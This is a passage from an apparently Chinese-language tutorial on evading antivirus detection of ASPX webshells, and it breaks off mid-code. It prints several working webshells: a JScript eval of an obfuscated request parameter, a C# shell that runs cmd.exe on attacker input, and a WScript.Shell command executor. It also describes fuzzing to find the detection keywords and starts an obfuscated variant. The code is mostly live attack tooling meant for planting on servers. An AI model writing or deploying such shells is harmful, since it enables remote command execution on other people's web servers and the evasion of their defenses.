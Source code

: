 ```
```
`aspx`支持下面这种语法，将多个`<%...%>`之间的代码相加。
```
<%@ Page Language="Jscript"%>
<%
    var p = eval(""%><%+"\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0049\u0074\u0065\u006D[\"g\"]")
    eval(p,"unsafe");
%>
```
测试发现无法绕过，在`%><%`添加换行成功绕过。
```
<%@ Page Language="Jscript"%>
<%
    var p = eval(""%>
<%+"\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0049\u0074\u0065\u006D[\"g\"]")
    eval(p,"unsafe");
%>
```
`global::`是`C#`中的全局命名空间别名，它允许你明确地引用全局命名空间中的类型，避免命名冲突。所以可以写出下面的绕过样本。
```
<%@ Page Language="c#"%>
<%
global::System.Diagnostics.ProcessStartInfo psi = new global::System.Diagnostics.ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c " + Request.Params.Get("g");
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
global::System.Diagnostics.Process p = global::System.Diagnostics.Process.Start(psi);
System.IO.StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
Response.Write(s);
%>
```
#### 危险方法替换
我们先写出一个经典的`aspx`调用`WScript.Shell`执行命令的`webshell`来进行变换。
```
<%@ Page Language="Jscript"%>
<%
var c=System.Web.HttpContext.Current;
var Request=c.Request;
var Response=c.Response;
var command = Request.Item['g'];
var r = new ActiveXObject("WScript.Shell").Exec("cmd /c "+command);
var OutStream = r.StdOut;
var Str = "";
while (!OutStream.atEndOfStream) {
    Str = Str + OutStream.readAll();
    }
Response.Write("<pre>"+Str+"</pre>");
%>
```
这个样本毫无疑问被杀，经过FUZZ发现关键点在于`ActiveXObject`和`WScript.Shell`不能同时出现。于是写出5种不同的绕过方式。
使用`unescape("%57%53%63%72%69%70%74%2e%53%68%65%6c%6c")`代替`WScript.Shell`
```
<%@ Page Language="Jscript"%>
<%
var c=System.Web.HttpContext.Current;
var Request=c.Request;
var Response=c.Response;
var command = Request.Item['g'];
```